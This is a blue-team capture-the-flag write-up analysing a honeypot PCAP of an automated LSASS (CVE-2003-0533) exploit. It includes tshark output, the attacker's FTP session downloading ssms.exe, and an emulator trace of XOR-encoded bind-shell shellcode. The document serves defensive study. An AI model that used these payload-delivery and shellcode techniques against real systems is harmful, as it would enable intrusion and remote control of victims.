

# HoneyBOT Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/honeybot/](https://cyberdefenders.org/blueteam-ctf-challenges/honeybot/)

Suggested tools: Brim, NetworkMiner, Wireshark, `Libemu` (`sctest`), `scdbg`, IP LookUp

Tactics: Initial Access, Execution, Privilege Escalation, Stealth, Command and Control

# Scenario

A PCAP analysis exercise highlighting attacker's interactions with honeypots and how automatic exploitation works.. (Note that the IP address of the victim has been changed to hide the true location). As a SOC analyst, analyze the artifacts and answer the questions.

# Questions

Q1- What is the attacker's IP address?

Answer: `98.114.205.102`

Reason: The first packets in `HoneyBOT.pcap` show `98.114.205.102` initiating a TCP three-way handshake against the honeypot at `192.150.11.111` on port `445` (SMB) beginning at the capture's start (relative time `0.000000`), establishing it as the attacking host; the honeypot's own IP is excluded as the answer since it is the responding party (`SYN, ACK`) in the exchange.

```bash
$ tshark -r HoneyBOT.pcap | head -n 5
    1   0.000000 98.114.205.102 → 192.150.11.111 TCP 62 1821 → 445 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM
    2   0.000464 192.150.11.111 → 98.114.205.102 TCP 62 445 → 1821 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460 SACK_PERM
    3   0.119058 98.114.205.102 → 192.150.11.111 TCP 60 1821 → 445 [ACK] Seq=1 Ack=1 Win=64240 Len=0
    4   0.134175 98.114.205.102 → 192.150.11.111 TCP 60 1821 → 445 [FIN, ACK] Seq=1 Ack=1 Win=64240 Len=0
    5   0.134550 98.114.205.102 → 192.150.11.111 TCP 62 1828 → 445 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM
```

Q2- What is the target's IP address?

Answer: `192.150.11.111`

Reason: The honeypot's IP address, `192.150.11.111`, is the target of the connection, identified as the responding host in the same initial TCP handshake used to answer Q1, replying with a `SYN, ACK` to the attacker's `SYN` on port `445` (SMB).

Q3- Provide the country code for the attacker's IP address (AKA geo-location).

Answer: US

Reason: GeoIP lookup of the attacker's address `98.114.205.102` resolves to Philadelphia, Pennsylvania, United States, with the hostname `pool-98-114-205-102.phlapa.fios.verizon.net` indicating a Verizon FiOS residential/consumer allocation (AS701) rather than dedicated hosting infrastructure, consistent with a compromised home machine or a scanning bot operating from a residential ISP.

```bash
$ curl ipinfo.io/98.114.205.102     
{
  "ip": "98.114.205.102",
  "hostname": "pool-98-114-205-102.phlapa.fios.verizon.net",
  "city": "Philadelphia",
  "region": "Pennsylvania",
  "country": "US",
  "loc": "39.9524,-75.1636",
  "org": "AS701 Verizon Business",
  "postal": "19102",
  "timezone": "America/New_York",
  "readme": "https://ipinfo.io/missingauth"
}
```

Q4- How many TCP sessions are present in the captured traffic?

Answer: 5

Reason: The capture contains 5 distinct TCP sessions, identified by unique source/destination port pairs across the two hosts.

```bash
$ tshark -r HoneyBOT.pcap -q -z conv,tcp
================================================================================
TCP Conversations
Filter:<No Filter>
                                                           |       <-      | |       ->      | |     Total     |    Relative    |   Duration   |
                                                           | Frames  Bytes | | Frames  Bytes | | Frames  Bytes |      Start     |              |
98.114.205.102:2152        <-> 192.150.11.111:1080            112 6,056 bytes     159 167 kB        271 173 kB        6.142326000        10.0719
98.114.205.102:1828        <-> 192.150.11.111:445              17 1,828 bytes      14 4,997 bytes      31 6,825 bytes     0.134550000         4.9381
192.150.11.111:36296       <-> 98.114.205.102:8884             12 1,018 bytes      15 1,051 bytes      27 2,069 bytes     5.082620000        11.1366
98.114.205.102:1924        <-> 192.150.11.111:1957              6 334 bytes       6 483 bytes      12 817 bytes     2.091833000         3.1000
98.114.205.102:1821        <-> 192.150.11.111:445               3 170 bytes       4 242 bytes       7 412 bytes     0.000000000         0.3543
================================================================================
```

Q5- How long did it take to perform the attack (in seconds)?

Answer: 16

Reason: The capture spans from relative time `0.000000` to `16.219218` seconds, the timestamp of the final packet in the trace, giving a total attack duration of approximately 16 seconds from the first SYN to the last RST.

```bash
$ tshark -r HoneyBOT.pcap tcp | tail -n 1
  348  16.219218 192.150.11.111 → 98.114.205.102 TCP 54 36296 → 8884 [RST] Seq=79 Win=0 Len=0
```

Q6- Provide the CVE number of the exploited vulnerability.

Answer: CVE-2003-0533

Reason: The traffic contains an MSRPC call to the `DsRoleUpgradeDownlevelServer` operation (opcode `9`) within the DSSETUP interface, visible in frames 37-38 at relative times shortly after `0.134550` seconds on the `192.150.11.111:445` session; this specific RPC call is the known trigger for the LSASS buffer overflow tracked as `CVE-2003-0533` (MS04-011), confirming that as the exploited vulnerability.

```bash
# Frames 37 and 38
$ tshark -r HoneyBOT.pcap -V -Y dssetup | grep -i DsRoleUpgradeDownlevelServer
Active Directory Setup, DsRoleUpgradeDownlevelServer
    Operation: DsRoleUpgradeDownlevelServer (9)
Active Directory Setup, DsRoleUpgradeDownlevelServer
    Operation: DsRoleUpgradeDownlevelServer (9)
```

Q7- Which protocol was used to carry over the exploit?

Answer: SMB

Reason: The exploit was carried over SMB (port `445`), with the malicious `DsRoleUpgradeDownlevelServer` RPC call transported inside an SMB named pipe transaction to `\PIPE\lsarpc`, which in turn tunneled the DCERPC bind and call to the `dssetup` interface, as shown by the protocol stack in the same session identified for Q6.

```bash
TCP 445 (or 139/NBT)
  └── SMB
        └── \PIPE\lsarpc
              └── DCERPC bind to 3919286a-...
                    └── dssetup calls
```

Q8- Which protocol did the attacker use to download additional malicious files to the target system?

Answer: FTP

Reason: The attacker used FTP to deliver additional files, evidenced by the port `8884` session (`tcp.stream 3`, `192.150.11.111:36296 <-> 98.114.205.102:8884`) showing a complete FTP control-channel exchange: server banner `220 NzmxFtpd 0wns j0`, anonymous-style `USER`/`PASS` login, active-mode `PORT` negotiation, and a `RETR ssms.exe` command followed by `150 Opening BINARY mode data connection` and `226 Transfer complete`, confirming the target retrieved a file named `ssms.exe` from the attacker's FTP server. Wireshark's protocol hierarchy statistics show this traffic classified only as generic `Data` rather than `FTP` because the session runs on TCP port `8884` instead of the well-known FTP control port `21` — Wireshark's FTP dissector is bound to port 21 by default and does not heuristically fingerprint FTP command syntax on arbitrary ports, so the session must be manually reinterpreted (`Decode As... -> FTP`, or as done here, followed and read as a raw TCP stream) to see the protocol.



```bash
"Protocol","Percent Packets","Packets","Percent Bytes","Bytes","Bits/s","End Packets","End Bytes","End Bits/s","PDUs"
"Frame",100,27,100,2069,1486.2707795117549,0,0,0,27
"Ethernet",100,27,18.269695505074914,378,271.537145797701,0,0,0,27
"Internet Protocol Version 4",100,27,26.09956500724988,540,387.91020828243,0,0,0,27
"Transmission Control Protocol",100,27,41.56597390043499,860,617.7829243016478,11,348,249.98657867089935,27
"Data",59.25925925925926,16,14.064765587240213,291,209.04050112997618,16,291,209.04050112997618,16

$ tshark -r HoneyBOT.pcap -q -z follow,tcp,ascii,3 

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 3
Node 0: 192.150.11.111:36296
Node 1: 98.114.205.102:8884
        21
220 NzmxFtpd 0wns j0

8
USER 1

        22
331 Password required

8
PASS 1

        20
230 User logged in.

6
SYST

        13
215 NzmxFtpd

8
TYPE I

        19
200 Type set to I.

26
PORT 192,150,11,111,4,56

        29
200 PORT command successful.

15
RETR ssms.exe

        40
150 Opening BINARY mode data connection

6
QUIT

        23
226 Transfer complete.

        27
221 Goodbye happy r00ting.
```

Q9- What is the name of the downloaded malware?

Answer: `ssms.exe`

Reason: The downloaded malware is named `ssms.exe`, the filename explicitly requested by the `RETR ssms.exe` FTP command sent from the victim `192.150.11.111` to the attacker's FTP server at `98.114.205.102:8884`, immediately followed by `150 Opening BINARY mode data connection` confirming the binary transfer began.

Q10- The attacker's server was listening on a specific port. Provide the port number.

Answer: `8884`

Reason: The attacker's FTP server was listening on port `8884`, the port on which `98.114.205.102` accepted the victim's connection and sent the FTP banner `220 NzmxFtpd 0wns j0`, as shown in the `192.150.11.111:36296 <-> 98.114.205.102:8884` session used to answer Q8-Q9.

Q11- When was the involved malware first submitted to VirusTotal for analysis? Format: `YYYY-MM-DD`

Answer: `2007-06-27`

Reason: The malware `ssms.exe`, extracted from the TCP stream and hashed as `b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d` (SHA-256), was first submitted to VirusTotal on `2007-06-27`, per the sample's VirusTotal submission history.

```bash
$ tshark -r HoneyBOT.pcap -Y "frame.number == 72" -V | tail
        [Time since previous frame in this TCP stream: 16.741000 milliseconds]
    [SEQ/ACK analysis]
        [iRTT: 114.437000 milliseconds]
        [Bytes in flight: 1024]
        [Bytes sent since last PSH flag: 1024]
    [Client Contiguous Streams: 1]
    [Server Contiguous Streams: 1]
    TCP payload (1024 bytes)
Socks Protocol

$ sha256sum exe                   
b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d  exe
```


Q12- What is the key used to encode the shellcode?

Answer: `0x99`

Reason: The shellcode uses a single-byte XOR key of `0x99` to self-decode. Emulation of `shellcode.bin` (the raw shellcode extracted from packet 29 of the exploit session) with `scdbg` traces execution through a `GetPC`-style stub at `0x4017c1`/`0x4017b1` that computes the encoded buffer's address into `edx`, sets a loop counter of `0x17d` (`377` bytes) into `ecx` via `mov cx,0x17d`, then repeatedly executes `xor byte [edx+ecx],0x99` followed by `loop 0x4017b9` until the counter reaches zero, decoding the payload in place before falling through to the real shellcode, which subsequently resolves `GetProcAddress`, `LoadLibraryA(ws2_32)`, and calls `WSASocket`/`bind`/`listen`/`accept`/`CreateProcessA` to spawn a bind shell on port `1957`.

```bash
# shellcode is in packet 29, so just extract the raw bytes from there as shellcode.bin, then:

$ wine /home/kali/tools/scdbg/scdbg.exe -f shellcode.bin /findsc 
Loaded 13f7 bytes from file shellcode.bin
Testing 5111 offsets  |  Percent Complete: 99%  |  Completed in 4040 ms
0) offset=0x70f        steps=MAX    final_eip=7c80ae40   GetProcAddress
1) offset=0x7c1        steps=MAX    final_eip=7c80ae40   GetProcAddress
2) offset= 0x942        steps=1401       final_eip= 401ebe                                                                                             
3) offset= 0x8d2        steps=1393       final_eip= 401ebe     
4) offset= 0x8d5        steps=1391       final_eip= 401ebe      
                                                                                                                                                       
Select index to execute:: (int/reg) 0
0
Loaded 13f7 bytes from file shellcode.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 70f
40170f  90                              nop 
401710  90                              nop                                                                                                            
401711  90                              nop                                                                                                            
401712  90                              nop                                                                                                            
401713  90                              nop                                                                                                            

4018cf  GetProcAddress(CreateProcessA)
4018cf  GetProcAddress(ExitThread)
4018cf  GetProcAddress(LoadLibraryA)
401843  LoadLibraryA(ws2_32)
4018cf  GetProcAddress(WSASocketA)
4018cf  GetProcAddress(bind)
4018cf  GetProcAddress(listen)
4018cf  GetProcAddress(accept)
4018cf  GetProcAddress(closesocket)
401859  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
40186d  bind(h=42, port:1957, sz=10) = 15
401873  listen(h=42) = 21
401879  accept(h=42, sa=21, len=21) = 68
4018b6  CreateProcessA( cmd,  ) = 0x1269
4018ba  closesocket(h=68)
4018be  closesocket(h=42)
4018c2  ExitThread(0)

Stepcount 7657

$ wine /home/kali/tools/scdbg/scdbg.exe -f shellcode.bin /findsc /v
[...]
4017a6   90                              nop                                                                                                           
4017a7   90                              nop                                                                                                           
4017a8   90                              nop                                                                                                           
4017a9   90                              nop                                                                                                           
4017aa   90                              nop             step: 155                                                                                     
4017ab   90                              nop                                                                                                           
4017ac   90                              nop                                                                                                           
4017ad   90                              nop                                                                                                           
4017ae   90                              nop                                                                                                           
4017af   EB10                            jmp 0x4017c1  vv                step: 160                                                                     
4017c1   E8EBFFFFFF                      call 0x4017b1                                                                                                 
4017b1   5A                              pop edx                                                                                                       
4017b2   4A                              dec edx                                                                                                       
4017b3   33C9                            xor ecx,ecx                                                                                                   
4017b5   66B97D01                        mov cx,0x17d            step: 165                                                                             
4017b9   80340A99                        xor byte [edx+ecx],0x99                                                                                       
4017bd   E2FA                            loop 0x4017b9                                                                                                 
4017b9   80340A99                        xor byte [edx+ecx],0x99                                                                                       
4017bd   E2FA                            loop 0x4017b9                                                                                                 
4017b9   80340A99                        xor byte [edx+ecx],0x99                 step: 170
[...]
```

Q13- What is the port number the shellcode binds to?

Answer: `1957`

Reason: The shellcode binds to port `1957`, as shown in the emulated `bind` call during scdbg execution in Q12, confirming the exploit establishes a bind shell listener on that port on the compromised host.

Q14- The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process?

Answer: `kernel32.dll`

Reason: The shellcode locates itself/resolves its required Windows APIs by first querying `kernel32.dll`, the operating system library that exports `GetProcAddress` and `LoadLibraryA` themselves; since the trace shows the shellcode calling `GetProcAddress` to resolve `CreateProcessA`, `ExitThread`, and `LoadLibraryA` by name before it ever calls `LoadLibraryA(ws2_32)`, `GetProcAddress`'s own address must already have been resolved beforehand, which is only possible by first locating `kernel32.dll`'s base in memory, making it the OS file queried during this process.

```bash
4018cf  GetProcAddress(CreateProcessA)
4018cf  GetProcAddress(ExitThread)
4018cf  GetProcAddress(LoadLibraryA)
401843  LoadLibraryA(ws2_32)
```

# Attack Tree

```bash
CVE-2003-0533 (MS04-011 LSASS Buffer Overflow) — 98.114.205.102 → 192.150.11.111
    └── TCP 445 (SMB) session established at 0.000000s
        └── \PIPE\lsarpc named pipe → DCERPC bind
            └── dssetup interface: DsRoleUpgradeDownlevelServer (opcode 9) overflow
                ├── [Stage 1 — Buffer Construction]
                │   └── filler bytes (0x31 '1111...') pad to overwrite offset
                │       └── NOP sled (0x90 x N) as landing zone
                │           └── XOR-encoded shellcode payload (key 0x99, 377 bytes)
                └── [Stage 2 — Shellcode Execution]
                    └── self-decoding stub: xor byte [edx+ecx],0x99 / loop 0x4017b9
                        └── decoded shellcode executes in place
                            ├── PEB walk → locate kernel32.dll base
                            │   └── resolve GetProcAddress
                            │       └── resolve LoadLibraryA, CreateProcessA, ExitThread by name
                            ├── LoadLibraryA(ws2_32) → resolve WSASocketA/bind/listen/accept/closesocket
                            └── bind shell on port 1957
                                └── listen(h=42) → accept(h=42) ← attacker connects back
                                    └── CreateProcessA(cmd) spawned on accepted socket
                                        └── [Stage 3 — Payload Retrieval]
                                            └── TCP 8884 FTP session (NzmxFtpd) 192.150.11.111 → 98.114.205.102
                                                └── USER/PASS "1"/"1" → 230 logged in
                                                    └── RETR ssms.exe ← malware downloaded to victim
    └── Total attack duration: 16.219218s (first SYN → final RST)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Attacker IP | `98.114.205[.]102` |
|  | Attacker geolocation | Philadelphia, PA, US (`AS701 Verizon Business`) |
|  | Attacker hostname | `pool-98-114-205-102.phlapa.fios.verizon.net` |
|  | Victim/honeypot IP | `192.150.11[.]111` |
|  | Exploit port | `445` (SMB) |
|  | Bind shell port | `1957` |
|  | FTP payload-delivery port | `8884` |
| Exploit | CVE | `CVE-2003-0533` (MS04-011, LSASS buffer overflow) |
|  | Delivery protocol | SMB |
|  | Named pipe | `\PIPE\lsarpc` |
|  | RPC interface | `dssetup` |
|  | RPC operation | `DsRoleUpgradeDownlevelServer` (opcode `9`) |
| Shellcode | Buffer filler | `0x31` (`'1'`) repeated padding bytes |
|  | NOP sled byte | `0x90` |
|  | XOR key | `0x99` |
|  | Encoded payload length | `0x17d` (`377` bytes) |
|  | Decoder loop address | `0x4017b9` |
|  | GetPC stub address | `0x4017b1` / `0x4017c1` |
| Native API Resolution | OS file queried | `kernel32.dll` |
|  | Resolved function | `GetProcAddress` |
|  | Resolved function | `LoadLibraryA` |
|  | Resolved function | `CreateProcessA` |
|  | Resolved function | `ExitThread` |
|  | Loaded library | `ws2_32.dll` |
|  | Resolved function | `WSASocketA` |
|  | Resolved function | `bind` |
|  | Resolved function | `listen` |
|  | Resolved function | `accept` |
|  | Resolved function | `closesocket` |
| Payload | FTP server banner | `NzmxFtpd 0wns j0` |
|  | FTP credentials | `1` / `1` |
|  | Downloaded file | `ssms.exe` |
|  | Downloaded file hash (SHA-256) | `b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d` |
|  | VirusTotal first submission | `2007-06-27` |
| Timeline | Attack duration | `16.219218` seconds (first SYN → final RST) |

# Lab Insights

- **Automated exploitation is fast, mechanical, and doesn't linger.** The entire compromise — from initial SYN to the final RST after malware retrieval — completed in just over 16 seconds, with no manual reconnaissance, no hesitation between exploit and payload delivery, and no attempt to blend in. This tempo is the clearest behavioral signature of a scripted/automated exploitation tool (worm or botnet scanner) rather than a human operator interactively working the target, and it's a useful triage heuristic on its own: sessions this short and this cleanly staged are rarely manual intrusions.
- **A protocol only exists in Wireshark if the dissector recognizes the port it's running on.** The FTP payload-delivery channel ran on port `8884` instead of the well-known port `21`, which was enough to make Wireshark's default protocol hierarchy classify it as generic `Data` rather than `FTP` — the actual command/response semantics were sitting right there in the bytes the whole time, just unlabeled. This is a reminder that automatic protocol identification in analysis tools is a convenience layer built on assumptions (well-known ports), not a guarantee, and that `Follow TCP Stream` / manual `Decode As` remain necessary whenever an attacker deliberately runs a legitimate protocol on a non-standard port to slip past shallow filtering or cursory review.
- **Shellcode self-encoding is a layered problem, not a single trick.** This payload combined three distinct evasion/reliability mechanisms stacked on top of each other: filler padding to hit a precise buffer offset, a NOP sled to tolerate imprecise return-address landing, and a single-byte XOR decoder to hide the real instructions from static/signature-based scanning until runtime. Each layer solves a different problem (exploit reliability vs. exploit reliability vs. detection evasion), and recognizing which layer you're looking at in a hex dump — literal ASCII filler vs. `0x90` padding vs. opaque encoded bytes — is what makes manual shellcode triage possible before ever firing up an emulator.
- **Dynamic API resolution has an unavoidable bootstrap dependency.** Before this shellcode could resolve any Windows API by name (`LoadLibraryA`, `CreateProcessA`, `WSASocketA`, etc.), it first had to locate `kernel32.dll` in memory through position-independent means (a PEB walk), because `GetProcAddress` itself — the tool used for every subsequent by-name lookup — lives inside that DLL and has no name-based shortcut for finding itself. Seeing `GetProcAddress` calls in a trace is indirect but solid evidence this bootstrap step already happened, even without directly observing the PEB-walk instructions themselves — a useful inference pattern when a trace only shows API call results, not every underlying instruction.